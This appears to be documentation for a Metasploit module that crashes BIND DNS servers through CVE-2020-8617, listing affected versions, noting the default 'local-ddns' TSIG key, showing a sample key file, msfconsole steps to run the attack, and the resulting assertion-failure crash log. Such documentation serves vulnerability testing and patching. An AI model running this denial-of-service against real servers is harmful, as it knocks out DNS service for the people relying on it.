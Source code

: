 ## Vulnerable Application
The following versions of BIND.
- 9.0.0 -> 9.11.18
- 9.12.0 -> 9.12.4-P2
- 9.14.0 -> 9.14.11
- 9.16.0 -> 9.16.2
- 9.17.0 -> 9.17.1 of the 9.17 experimental development branch. 
- All releases in the obsolete 9.13 and 9.15 development branches. 
- All releases of BIND Supported Preview Edition from 9.9.3-S1 -> 9.11.18-S1.

The attacker must know the name of the real TSIGKey on the target in order to exploit CVE-2020-8617.
However, by default, BIND generates a TSIGKey that name of  "local-ddns" at boot time.
As such, the majority of target versions are vulnerable to this attack.

```
$ sudo cat /var/run/named/session.key
key "local-ddns" {
        algorithm hmac-sha256;
        secret "s/+GOoQRryn/VVndpmFHsgDOBLwndh1zEjVJLK5jo04=";
};

```

## Verification Steps
  1. Start the vulnerable server
  2. Start `msfconsole`
  3. Do: ```use auxiliary/dos/dns/bind_tsig_badtime```
  4. Do: ```run```
  5. The server should crash

## Options
None.

## Scenarios

## Server output from crash

```
26-May-2020 02:45:59.565 general: critical: tsig.c:954: INSIST(msg->verified_sig) failed, back trace
26-May-2020 02:45:59.565 general: critical: #0 0x563435d6aa40 in __do_global_dtors_aux_fini_array_entry()+0x5634357f6888
26-May-2020 02:45:59.565 general: critical: #1 0x563435f49c0a in __do_global_dtors_aux_fini_array_entry()+0x5634359d5a52
26-May-2020 02:45:59.565 general: critical: #2 0x563435ecfcb9 in __do_global_dtors_aux_fini_array_entry()+0x56343595bb01
26-May-2020 02:45:59.565 general: critical: #3 0x563435e14b19 in __do_global_dtors_aux_fini_array_entry()+0x5634358a0961
26-May-2020 02:45:59.565 general: critical: #4 0x563435d5b57f in __do_global_dtors_aux_fini_array_entry()+0x5634357e73c7
26-May-2020 02:45:59.565 general: critical: #5 0x563435d5cffd in __do_global_dtors_aux_fini_array_entry()+0x5634357e8e45
26-May-2020 02:45:59.565 general: critical: #6 0x563435d5d6a8 in __do_global_dtors_aux_fini_array_entry()+0x5634357e94f0
26-May-2020 02:45:59.565 general: critical: #7 0x563435d5f1a7 in __do_global_dtors_aux_fini_array_entry()+0x5634357eafef
26-May-2020 02:45:59.565 general: critical: #8 0x563435f716d9 in __do_global_dtors_aux_fini_array_entry()+0x5634359fd521
26-May-2020 02:45:59.565 general: critical: #9 0x7f6513f576db in __do_global_dtors_aux_fini_array_entry()+0x7f65139e3523
26-May-2020 02:45:59.565 general: critical: #10 0x7f6513c8088f in __do_global_dtors_aux_fini_array_entry()+0x7f651370c6d7
26-May-2020 02:45:59.565 general: critical: exiting (due to assertion failure)
```

